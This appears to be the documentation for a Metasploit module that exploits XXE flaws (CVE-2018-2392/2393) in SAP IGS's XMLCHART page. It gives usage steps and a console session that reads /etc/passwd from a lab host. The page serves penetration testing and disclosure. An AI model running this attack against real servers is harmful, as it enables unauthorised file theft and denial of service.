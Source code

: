 # SAP IGS XXE attack CVE-2018-2392 and CVE-2018-2393

## Vulnerable Application
This module exploits CVE-2018-2392 and CVE-2018-2393, two XXE vulnerabilities within the XMLCHART page
of SAP Internet Graphics Servers (IGS) running versions 7.20, 7.20EXT, 7.45, 7.49, or 7.53. These
vulnerabilities occur due to a lack of appropriate validation on the Extension HTML tag when
submitting a POST request to the XMLCHART page to generate a new chart.

Successful exploitation will allow unauthenticated remote attackers to read files from the server as the user
from which the IGS service is started, which will typically be the SAP admin user. Alternatively attackers
can also abuse the XXE vulnerability to conduct a denial of service attack against the vulnerable
SAP IGS server.

### Application Background
The Internet Graphics Service (IGS) where it provides a way infrastructure to enable developers to display graphics
in an internet browser with minimal effort. It has been integrated in several different SAP UI technologies
where it provides a way for data from another SAP system or data source to be utilized to generate
dynamic graphical or non-graphical output.

### Installation Steps
Steps to install and update the SAP IGS server can be found online on [this page][2].
Additional information on configuring the IGS server can be found [here][3].
Finally information on administering the IGS server can be found [here][4].

Once set up and configured, the instances will be vulnerable on the default HTTP port 40080.

## Verification Steps

  1. Start msfconsole
  1. Do: `workspace [WORKSPACE]`
  1. Do: `use auxiliary/admin/sap/sap_igs_xmlchart_xxe`
  1. Do: `set RHOSTS [IP]`
  1. Do: `set FILE [remote file name]`
  1. Do: `set action READ`
  1. Do: `check`
  1. Verify that the `check` method correctly identifies if the target is vulnerable or not.
  1. Do: `run`
  1. Verify that the contents of the file you specified were returned.

## Options

### FILE

File to read from the remote server. Example: `/etc/passwd`

### URIPATH

This is the path to the XMLCHART page of the SAP IGS server that is vulnerable to XXE.
By default it is set to `/XMLCHART`, however it can be changed if the SAP IGS server
was installed under a different path than the web root. For example if the SAP IGS
server was installed to the `/igs/` path under the web root, then this value would be
set to `/igs/XMLCHART`.

## Actions
```
   Name  Description
   ----  -----------
   READ  Remote file read
   DOS   Denial Of Service
```

## Scenarios

### Vulnerable SAP IGS release: 7.45 running on SUSE Linux Enterprise Server for SAP Applications 12 SP1

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/sap_igs_xmlchart_xxe
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set RHOSTS 172.16.30.29
RHOSTS => 172.16.30.29
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set FILE /etc/passwd
FILE => /etc/passwd
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set action READ
action => READ
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set Proxies http:127.0.0.1:8080
Proxies => http:127.0.0.1:8080
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > options

Module options (auxiliary/admin/sap/sap_igs_xmlchart_xxe):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FILE     /etc/passwd          no        File to read from the remote server
   Proxies  http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.16.30.29         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    40080                yes       The target port (TCP)
   SSL      false                no        Negotiate SSL/TLS for outgoing connections
   URIPATH  /XMLCHART            yes       Path to the SAP IGS XMLCHART page from the web root
   VHOST                         no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   READ  Remote file read


msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > check
[+] 172.16.30.29:40080 - The target is vulnerable. 172.16.30.29 running OS: SUSE Linux Enterprise Server for SAP Applications 12 SP1 returned a response indicating that its XMLCHART page is vulnerable to XXE!
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > run
[*] Running module against 172.16.30.29

[+] File: /etc/passwd content from host: 172.16.30.29
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
bin:x:1:1:bin:/bin:/bin/bash
daemon:x:2:2:Daemon:/sbin:/bin/bash
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:107:112:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
haldaemon:x:101:102:User for haldaemon:/var/run/hald:/bin/false
lp:x:4:7:Printing daemon:/var/spool/lpd:/bin/bash
mail:x:8:12:Mailer daemon:/var/spool/clientmqueue:/bin/false
man:x:13:62:Manual pages viewer:/var/cache/man:/bin/bash
messagebus:x:100:101:User for D-Bus:/var/run/dbus:/bin/false
news:x:9:13:News system:/etc/news:/bin/bash
nobody:x:65534:65533:nobody:/var/lib/nobody:/bin/bash
ntp:x:74:108:NTP daemon:/var/lib/ntp:/bin/false
polkituser:x:104:107:PolicyKit:/var/run/PolicyKit:/bin/false
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/bin/false
pulse:x:105:109:PulseAudio daemon:/var/lib/pulseaudio:/bin/false
puppet:x:103:106:Puppet daemon:/var/lib/puppet:/bin/false
root:x:0:0:root:/root:/bin/bash
sshd:x:71:65:SSH daemon:/var/lib/sshd:/bin/false
suse-ncc:x:106:111:Novell Customer Center User:/var/lib/YaST2/suse-ncc-fakehome:/bin/bash
uucp:x:10:14:Unix-to-Unix CoPy system:/etc/uucp:/bin/bash
uuidd:x:102:104:User for uuidd:/var/run/uuidd:/bin/false
wwwrun:x:30:8:WWW daemon apache:/var/lib/wwwrun:/bin/false
admin:x:1000:100:admin:/home/admin:/bin/bash
j45adm:x:1001:1001:SAP System Administrator:/home/j45adm:/bin/csh
sybj45:x:1002:1001:SAP Database Administrator:/sybase/J45:/bin/csh
sapadm:x:1003:1001:SAP System Administrator:/home/sapadm:/bin/false
[+] File: /etc/passwd saved in: /Users/vladimir/.msf4/loot/20201007131238_SAP_TEST_172.16.30.29_igs.xmlchart.xxe_346716.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.29  40080  tcp    http  open   SAP Internet Graphics Server (IGS)

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                             References
---------                ----          ----                                             ----------
2020-10-07 10:12:37 UTC  172.16.30.29  SAP Internet Graphics Server (IGS) XMLCHART XXE  CVE-2018-2392,CVE-2018-2393,URL-https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > loot

Loot
====

host          service  type              name         content     info                  path
----          -------  ----              ----         -------     ----                  ----
172.16.30.29           igs.xmlchart.xxe  /etc/passwd  text/plain  SAP IGS XMLCHART XXE  /Users/vladimir/.msf4/loot/01619fd331da98b5ac4d-20201007131238_SAP_TEST_172.16.30.29_igs.xmlchart.xxe_346716.txt

```

[1]: https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf
[2]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193dbeb5c617e2e10000000a42189b.html
[3]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e1939c9b5c617e2e10000000a42189b.html
[4]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193988b5c617e2e10000000a42189b.html

## HTTP check request in Burp
![HTTP check request in Burp](https://github.com/Vladimir-Ivanov-Git/sap_igs_xxe/blob/main/Proofs/sap_igs_xxe_check_burp.png)

## First HTTP request to get remote /etc/passwd file in Burp
![First HTTP request to get remote /etc/passwd file in Burp](https://github.com/Vladimir-Ivanov-Git/sap_igs_xxe/blob/main/Proofs/sap_igs_xxe_run_burp_1.png)

## Second HTTP request to get remote /etc/passwd file in Burp
![Second HTTP request to get remote /etc/passwd file in Burp](https://github.com/Vladimir-Ivanov-Git/sap_igs_xxe/blob/main/Proofs/sap_igs_xxe_run_burp_2.png)

## Demo video
[![Demo video](https://github.com/Vladimir-Ivanov-Git/sap_igs_xxe/blob/main/Proofs/video_preview.gif)](https://youtu.be/rsCJFskb_P0)

[1]: https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf
[2]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193dbeb5c617e2e10000000a42189b.html
[3]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e1939c9b5c617e2e10000000a42189b.html
[4]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193988b5c617e2e10000000a42189b.html
